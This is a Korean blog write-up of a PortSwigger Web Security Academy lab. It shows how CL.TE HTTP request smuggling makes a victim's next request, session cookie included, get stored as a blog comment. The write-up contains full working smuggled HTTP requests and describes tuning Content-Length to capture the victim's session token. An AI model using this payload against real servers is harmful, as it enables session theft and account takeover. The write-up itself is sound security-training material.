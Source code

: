 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Exploiting HTTP request smuggling to capture other users' requests"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-19 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/exploiting
- 난이도: PRACTITIONER (보통)

# 취약점 개요 (Capturing other users' requests)
- 만약 어플리케이션이 유저의 데이터를 저장하고 보여주는 기능을 가지고 있고, HTTP요청 스머글링이 가능하다면, (인증 정보를 포함한) 다른 유저를 요청 내용을 저장하는 용도로 악용될 가능성이 있다. 이 요청 내용에는 세션토큰과 같은 중요 정보도 포함된다. 
- 원리는 이전문제 (프론트엔드 서버가 추가한 HTTP 헤더 내용을 노출시키는 것)와 비슷하다. 스머글링한 HTTP요청의 Content-Length 값이 스머글링 요청의 바디값보다 크면, 그 크기만큼 커넥션에서 이어지는 다른 HTTP 요청 자체가, 스머글링 요청의 바디로 취급되는 원리다. 
- 따라서 이어지는 요청의 HTTP 요청자체가 어플리케이션에 저장되게 된다. 이를 공격자가 보고 정보를 훔치는 것이다.

예를 들면 다음과 같은 모양이다. 

- 저장되는 정보를 담는 파라메터(`comment`)를 가장 HTTP요청의 가장 뒤쪽에 배치하는 것이 포인트다. 
- Content-Length 헤더 값이 400이다. 이 요청의 바디의 길이는 144바이트이므로 이어지는 요청의 256바이트 분의 데이터가 comment 파라메터의 값으로 처리된다. 

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 chunked encoding(TE헤더)을 지원하지 않는다. (즉, CL.TE패턴이다.)
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, 다른 유저의 요청이 어플리케이션에 저장되도록 한다. 이 유저의 세션쿠키를 얻어내서 해당 세션으로 어플리케이션에 접근하면 된다. 
- 랩은 Victim의 행동을 시뮬레이션하고 있다. 몇 개의 POST요청이 발생할 때마다 victim도 요청을 보낸다. 

```
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

Notes   
The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.
```

# 풀이 
1. 공격 가능 포인트를 찾는다. 유저의 입력값이 저장되는 부분이다. 블로그 포스트에 커멘트를 저장하는 부분이 있으므로 여기를 이용가능할 것 같다. 

![공격 가능 포인트](/images/burp-academy-hrs-9-1.png)

2. 스머글링해본다. 아래와 같은 형태였을 때 성공했다. 

```
POST / HTTP/1.1
Host: 0a4800bc035b26a98132e8760047007f.web-security-academy.net
Cookie: session=52juPoQ8YgvbMKvGyYhVVRbMPSFc1R1n
Content-Length: 319
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a4800bc035b26a98132e8760047007f.web-security-academy.net
Cookie: session=52juPoQ8YgvbMKvGyYhVVRbMPSFc1R1n
Content-Length: 400
Content-Type: application/x-www-form-urlencoded

csrf=61d1u1mxC1E8B2rPrruu6PjQsSrREKdV&postId=6&name=moon&email=moon%40tester.com&website=&comment=
```

![스머글링 성공](/images/burp-academy-hrs-9-2.png)

블로그 글 보기 URL을 리로딩해본다. 그러면 다음과 같이 HTTP요청이 저장된 것을 볼 수 있다. 

![HTTP요청이 저장된 모습](/images/burp-academy-hrs-9-3.png)

3. 현재는 스머글링 요청에 지정한 Content-Length 헤더 값이 400이다. 이 것으로는 필요한 정보를 노출시키기에는 조금 짧으므로 서서히 키우면서 반복해서 테스트해본다. 테스트 하다보면 페이지를 리로딩했을 때 다음과 같이 Invalid Request페이지로 리다이렉트 되는 경우도 있다. 

![Invalid Request페이지로 이동](/images/burp-academy-hrs-9-4.png)

또한 Content-Length 값이 너무 크면 타임아웃이 발생하기도 한다. 

![타임아웃 발생](/images/burp-academy-hrs-9-5.png)

4. 어쨌든 계속 반복한다. Content-Length 값이 900정도 였을 때 몇번 반복테스트해서 다음과 같이 Victim의 세션토큰을 얻어내는데 성공했다. 

![Victim의 세션토큰을 얻어내는데 성공](/images/burp-academy-hrs-9-6.png)

5. 이 세션토큰을 가지고 계정 정보 페이지에 접근하면 문제가 풀렸다는 메세지가 표시된다. 

![풀이 성공](/images/burp-academy-hrs-9-success.png)
